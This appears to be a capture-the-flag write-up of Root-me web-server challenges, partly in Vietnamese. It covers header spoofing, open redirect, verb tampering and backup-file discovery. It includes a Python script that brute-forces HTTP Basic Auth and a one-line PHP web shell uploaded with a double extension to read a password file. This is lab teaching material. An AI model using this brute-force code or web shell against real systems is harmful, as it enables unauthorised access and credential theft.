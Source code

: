```yaml
---
description: 'Note : A JOURNEY TO GAIN KNOWLEDGE'
---
```


# 🏝 Rootme

## Web - Server

### [HTML - Source code](https://www.root-me.org/en/Challenges/Web-Server/HTML-Source-code)

F12 for flag

### [HTTP - IP restriction bypass](https://www.root-me.org/en/Challenges/Web-Server/HTTP-IP-restriction-bypass)

``[`document`](https://medium.com/r3d-buck3t/bypass-ip-restrictions-with-burp-suite-fb4c72ec8e9c)``

![](<../.gitbook/assets/image (39) (1).png>)

> **Syntax: X-Forwarded-For: \<client>,\<proxy1>,\<proxy2>,\<proxy3>**

Change IP at client to private IP by adding _**an X-Forwarded-For**_ header

![](<../.gitbook/assets/image (13) (2).png>)

### [HTTP - Open redirect](https://www.root-me.org/en/Challenges/Web-Server/HTTP-Open-redirect)

![](<../.gitbook/assets/image (35).png>)

It combines URL and hash md5 of that one, so that we just put other URL and hash of it.

![](<../.gitbook/assets/image (29) (1).png>)

### HTTP - User-agent

change User-Agent to \`admin\`

![](<../.gitbook/assets/image (18).png>)

### Weak password

```
import requests
from requests.auth import HTTPBasicAuth
url = "http://challenge01.root-me.org/web-serveur/ch3/"
usr = "admin"
words = open('common_password.txt','r').read().split('\n')
cnt =1
for pwd in words:
	print(pwd,cnt)
	
	res = requests.get(url, auth=HTTPBasicAuth(usr, pwd))
	
	if "401" not in res.text:
		print('Password is ' + pwd)
		break
	cnt +=1
```

![](<../.gitbook/assets/image (39).png>)

### PHP - Command injection

![](<../.gitbook/assets/image (32) (2).png>)

![](<../.gitbook/assets/image (33).png>)

``[`document`](https://portswigger.net/web-security/os-command-injection)``

### Backup file

Use dirsearch find some interesting files:

![](<../.gitbook/assets/image (24).png>)

> /web-serveur/ch11/index.php\~

### HTTP - Directory indexing

> [http://challenge01.root-me.org/web-serveur/ch4/admin/backup/admin.txt](http://challenge01.root-me.org/web-serveur/ch4/admin/backup/admin.txt)
>
>

![](<../.gitbook/assets/image (5) (3).png>)

### HTTP - Headers

With normal request we will get:

![](../.gitbook/assets/image.png)

add Header to request:

> Header-RootMe-Admin: True

![](<../.gitbook/assets/image (32).png>)

### HTTP - POST

![](<../.gitbook/assets/image (2).png>)

### HTTP - Improper redirect

Capture before it redirect

![](<../.gitbook/assets/image (3).png>)

### HTTP - Verb tampering

Ban đầu tưởng bruteforce ngồi xài hydra và cái rockyou.txt ra spam cả tiếng&#x20;

![](<../.gitbook/assets/image (5).png>)

temper ở đây là chỉ cần đổi method khác ngoài GET và POST là được, cứ PUT với DELETE mà phang

![](<../.gitbook/assets/image (10).png>)

### File upload - Double extensions

```
<?php echo shell_exec($_GET['cmd']); ?>
```

set file.php.png and send to the server

![](<../.gitbook/assets/image (16).png>)

```
?cmd=cd;cat.passwd
```

